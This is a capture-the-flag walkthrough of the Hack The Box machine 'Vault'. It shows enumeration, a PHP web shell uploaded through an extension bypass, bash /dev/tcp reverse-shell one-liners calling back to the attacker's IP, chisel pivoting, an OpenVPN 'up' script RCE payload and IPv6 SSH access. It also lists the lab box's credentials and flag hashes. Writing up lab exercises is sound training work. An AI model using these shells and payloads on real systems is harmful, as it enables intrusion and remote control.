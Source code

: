 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/vault 10.10.10.109

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a69d0f7d7375bba8940ab7e3fe1f24f4 (RSA)
|   256 2c7c34eb3aeb0403ac48285409743d27 (ECDSA)
|_  256 98425fad8722926d72e6666c82c10983 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 80
Talks about a new client called sparklays. There is a directory with this name so gobuster time.
```
gobuster dir -u http://10.10.10.109/sparklays/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

Find a few pages:
```
admin.php
login.php
design/
```

Doing that again on design shows an uploads and design.html page.

# File Upload
```
<?php system($_REQUEST['cmd']); ?>
```

php extensions are blocked :( but php5 is not.

so throw a shell that way:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.21/9001 0>&1'
```

# Shell as www-data

Dave has some cool files:
```
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
itscominghome
dave
Dav3therav3123
```

# Shell as dave
chisel time!
```
(local) ./chisel server --reverse --socks5 -p 8000
(remote) ./chisel clietn 10.10.14.21:8000 R:socks
```

then run nmap via proxychains:
```
proxychains -sT nmap 192.168.122.4

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

# DNS Server
port 80 lets you test ovpn config.

There is an rce for this:
```
remote 192.168.122.1
nobind
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.122.1/9002 0>&1'"
```

Now we are root on DNS.

You can also forward the port to make it reach back to kali
```
ssh> -R 127.0.0.1:9001:127.0.0.1:9001
```

or socat (linux only :( )
```
(remote) ./socat TCP-LISTEN:9002,bin=192.168.122.1,fork,reuseaddr TCP:localhost:9001

#POC
(local) nc -lvnp 9001
(remote) nc 192.168.122.1 9002
# You should see traffic on local box
```


user.txt (in dave's home dir)
```
a4947faa8d4e1f80771d34234bd88c73
```

More notes:
```
ssh
dave
dav3gerous567
```

check /etc/hosts
```
192.168.5.2	Vault
```

Cant ping the box :(
```
ip route
192.168.5.0/24 via 192.168.122.5 dev ens3 
192.168.122.0/24 dev ens3  proto kernel  scope link  src 192.168.122.4 
```

IPV6 magic:
```
arp -an
? (192.168.122.5) at 52:54:00:3a:3b:d5 [ether] on ens3
? (192.168.122.1) at fe:54:00:17:ab:49 [ether] on ens3

nmap -6 fe:54:00:17:ab:49%ens3

#shows that 987 is open
```

Guess on ssh

```
ping6 -I ens3 ff02::1
ssh -p 987 fe80::5054:ff:fec6:7066%ens3
```

yep

# Dave on vault
root.txt.gpg file but we are stuck in rbash

the key is on the ubuntu box.

drop back to DNS and scp.
```
scp -6 -P 987 dave@[fe80::5054:ff:fec6:7066%ens3]:root* .
```

now base64 encode and drop on the ubuntu box.

decode with the vault password from ages ago.

root.txt:
```
ca468370b91d1f5906e31093d9bfe819
```